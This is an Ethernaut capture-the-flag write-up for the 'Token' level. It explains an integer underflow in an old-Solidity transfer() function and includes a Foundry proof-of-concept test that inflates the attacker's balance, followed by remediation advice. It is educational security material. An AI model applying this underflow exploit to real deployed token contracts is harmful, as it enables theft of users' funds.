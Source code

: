 # Level 5 - Token

## Objectives

- You are given 20 tokens. Use them to gain additional tokens. Preferably a very large amount of tokens.

## Contract Overview

The `Token` contract is a simplified version of the ERC20 standard. It has 2 out
of 6 core ERC20 functions (`transfer()` and `balanceOf()`). It does not have the
mechanism of approval/spending of someone else's tokens. It also does not emit
`Transfer` and `Approval` events, which are necessary for the ERC20
specification. The `Token` contract lacks important safety checks to prevent
some of the most common ERC20 vulnerabilities.
_References: https://ethereum.org/en/developers/docs/standards/tokens/erc-20/, https://eips.ethereum.org/EIPS/eip-20_

Other than that, the `Token` contract is functioning almost the same as the
ERC20.

In the `Token` contract what interest us is `transfer()` function. This function is responsible for the transfer of tokens and accepts an address to which to send the tokens and a value specifying how many tokens to send.

```solidity
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```

The first line has a validation that checks if sender balance does not go negative when we transfer the tokens. It should always be `>=0`.

The second line deducts the value from our balance.

The third line adds the token value to the balance of the receiver (`_to`).

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Token_slither.png)

## Finding the weak spots

The contract's Solidity version is <0.8 which means that it is prone to overflows and underflows.
_Reference: https://solidity-by-example.org/hacks/overflow/_

Integer Overflow is a scenario where the unsigned variable types reach their maximum capacity. When it can't hold anymore, it just resets back to its initial minimum point which was 0. The opposite goes for underflows. In the case of underflow, if we subtract 1 from a uint8 that is 0, it will change the value to 255.

To exploit `Token` contract we have to underflow the token balance. The vulnerability lies in the second line which is deducting our balance.

```solidity
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0); // <-- this line over here
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```

In older versions of Solidity, there was no validation for overflows and underflows therefore developers had to implement their own checks. A SafeMath library was also introduced for this purpose. But since Solidity 0.8.0+, there's no need to use the SafeMath since it natively checks the variables for overflows and underflows and reverts if detected.

Since the objective of the level is for us to acquire some tokens, we'll have to exploit the following statements

```solidity
    require(balances[msg.sender] - _value >= 0); // <-- this line over here
    balances[msg.sender] -= _value;
```

In the case we not specify `uint` and left it as `uint` in fact it is `uint256` so the max value is `2^256 - 1`. `Uint` doesn't have negative number so if we transfer 21 tokens (having 20 tokens to start with) it would be `-1` but in this case it would be `2^256 - 1` so a very big number.

## Potential attack scenario (hypothesis)

If attacker transfers 21 tokens (having 20 tokens to start with) to some random contract address, he can exploit integer underflow to gain additional tokens (a very large amount of tokens).

## Plan of the attack

Attacker is given 20 tokens to start with.

1.  Attacker looks for random contract address (e.g. from https://etherscan.io/).
2.  Attacker calls `transfer()` passing random contract address as the first argument and any number larger than the number of tokens that attacker possesses (e.g. 21).
3.  Attacker gains additional tokens.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/05-Token.t.sol))

```solidity
        // Attacker looks for random contract address (e.g. from https://etherscan.io/).
        address randomContractAddress = 0xBaF6dC2E647aeb6F510f9e318856A1BCd66C5e19;

        emit log_named_uint(
            "Attackers's balance of tokens (before attack): ",
            tokenContract.balanceOf(attacker)
        );

        // Attacker calls `transfer()` passing random contract address as the first argument and any number larger than the number of tokens that attacker possesses
        emit log_string("Starting the exploit...");
        tokenContract.transfer(randomContractAddress, 21);

        // Attacker gains additional tokens
        tokenContract.balanceOf(attacker);

        emit log_named_uint(
            "Attackers's balance of tokens (after attack): ",
            tokenContract.balanceOf(attacker)
        );

        // Test assertion
        assertGe(tokenContract.balanceOf(attacker), 20);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Token.png)

## Recommendations

- For Solidity versions < 0.8.0 the use of SafeMath is recommended
- It is important to have 0 address checks to prevent token burning if it is not
  intended by design.
- Fuzz tests may catch unexpected logic bugs early. It is recommended to have at
  least one fuzz test per function (ex. tools: Echidna, Foundry fuzz tests,
  Mythril, Scribble)
- Make sure that all of the return values are checked. It is safer to have
  functions revert on failure rather than returning a boolean.
- State variables that do not change should be declared `constant`.

## Additional information

You can also read my other solution (using console) on my blog: https://matrix-0wl.gitbook.io/ethernaut/5.-token-uint-prone-to-under-overflow-in-solidity-less-than-0.8

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- https://ethereum.org/en/developers/docs/standards/tokens/erc-20/
- https://eips.ethereum.org/EIPS/eip-20_
- https://solidity-by-example.org/hacks/overflow/

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

